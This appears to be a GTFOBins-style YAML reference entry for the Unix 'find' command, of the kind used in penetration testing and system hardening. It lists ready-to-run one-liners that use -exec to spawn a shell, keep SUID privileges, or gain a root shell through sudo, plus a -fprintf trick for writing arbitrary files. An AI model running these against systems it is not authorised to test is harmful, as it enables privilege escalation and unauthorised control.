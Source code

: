 ```yaml
---
functions:
  shell:
    - code: find . -exec /bin/sh \; -quit
  suid:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo:
    - code: sudo find . -exec /bin/sh \; -quit
  file-write:
    - description: DATA is a format string, it supports some escape sequences 
      code: |
        TD=$(mktemp -d)
        touch $TD/dummy
        find $TD -type f -fprintf file_to_write DATA
---
```

